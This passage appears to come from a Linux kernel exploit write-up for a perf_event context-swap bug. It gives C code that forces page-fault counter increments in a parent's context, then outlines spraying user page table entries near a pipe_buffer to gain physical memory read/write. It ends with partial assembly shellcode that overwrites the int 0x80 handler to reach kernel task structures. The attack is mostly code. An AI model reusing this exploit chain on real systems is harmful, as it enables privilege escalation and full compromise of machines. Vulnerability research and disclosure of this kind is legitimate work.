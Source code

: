 ### Arbitrary increment
- Normally, a page fault increments a counter in the current process's ctx.
- However, after swapping(`perf_event_context_sched_out()`), the child's page fault increments counters in the parent's ctx.
- Pinning the parent and child to different CPUs prevents context reswaps, making the attack reliable.

```c
	pid_t child_pid = fork();
    if (child_pid == 0) {
        [...]
        page_fault_memory = (char *)mmap(NULL, 0x1000 * PAGE_FAULT_COUNT, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        for (int i=0; i < PAGE_FAULT_COUNT; i++) {
            ioctl(group_leader, PERF_EVENT_IOC_ENABLE, 0);
            page_fault_memory[0x1000 * i] = 0x41;
            ioctl(group_leader, PERF_EVENT_IOC_DISABLE, 0);
        }
        [...]
        remove_xattr(xattr_name, 1); // used for oob buffer
        for (int _=0; _<32; _++) {
            read(group_leader, event_buf, sizeof(event_buf)); 
        }
        write(vuln_pipe[1], &pte, sizeof(pte));  
        munmap(page_fault_memory, 0x1000 * 0x80);

        exit(0);
    }
    else if (child_pid > 0) {
        _pin_to_cpu(CPU_B);  // pinned to CPU_B
        sched_yield(); 
		[...]
	}
```

## Arbitrary physical address Read/Write
1) Spraying User PTEs Near pipe_buffer
- First, we allocate a pipe_buffer and then allocate user pages.
- By repeatedly accessing these user pages, we spray user page table entries (PTEs) close to the pipe_buffer in memory.

2) Triggering the Vulnerability to Increment `pipe_buffer->page`
- We trigger the vulnerability to increment `pipe_buffer->page`, effectively making it point to the user PTEs.
- If the race condition is successful, we gain control over user PTEs and modify them as needed.

3) Patching the int 0x80 Handler
- Once we gain arbitrary memory read/write, we search for the int 0x80 handler and overwrite it with following shellcode.
```c
    swapgs
    mov r12, QWORD PTR gs:0x20cc0
    mov r14, [r12+0x248] 
    sub r14, 0x1ec030   // r14 = kbase
    mov r8, r14 
     
    mov rdi, 1 
    mov rax, r8 
    add rax, 0x1bde50   

    push r12
    push r8
    call rax     // find_task_by_vpid(1)
    mov rbx, rax
```